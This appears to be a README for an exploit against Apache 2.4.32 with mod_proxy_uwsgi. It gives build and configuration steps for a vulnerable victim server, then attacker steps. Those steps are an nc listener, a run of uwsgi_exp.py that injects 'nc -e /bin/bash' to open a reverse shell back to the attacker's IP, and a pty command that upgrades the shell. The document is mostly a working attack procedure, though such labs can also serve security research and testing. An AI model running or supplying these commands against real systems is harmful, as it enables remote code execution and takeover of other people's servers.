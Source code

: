 # Exploit
## Victim requirements
* Apache 2.4.32
* mod_proxy_uwsgi enabled

```
sudo apt-get install libapr1-dev libaprutil1-dev libpcre3-dev
wget https://archive.apache.org/dist/httpd/httpd-2.4.32.tar.gz
tar -xvf httpd-2.4.32.tar.gz
cd httpd-2.4.32/
./configure --prefix=/usr/local/apache2 --enable-mods-shared=all --enable-deflate --enable-proxy --enable-proxy-balancer --enable-proxy-http
make
sudo make install
sudo a2enmod proxy_uwsgi
sudo cp /usr/local/apache2/bin/apachectl /etc/init.d/apache2
sudo chmod +x /etc/init.d/apache2
sudo service apache2 start
```
```
# edit file /usr/local/apache2/conf/httpd.conf
<VirtualHost *:80>
    ProxyPass "/" "uwsgi://localhost:8080/"
    LimitRequestFieldSize 1048576
</VirtualHost>
```

## Victim

Start the uswgi server with the following command:
```
uwsgi --puwsgi-socket localhost:8080 --wsgi-file foobar.py
```

## Attacker

Run this commands from the attacker's machine:
```
# start listening for a reverse shell
nc -lvp 1234
```
```
IP_VICTIM=10.0.2.10
IP_ATTACKER=$(hostname -I)
python uwsgi_exp.py -u $IP_VICTIM -c "nc -e /bin/bash $IP_ATTACKER 1234 2>/dev/null &"
```

A reverse shell will be opened on the victim's machine. Spawn a bash shell with the following command:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
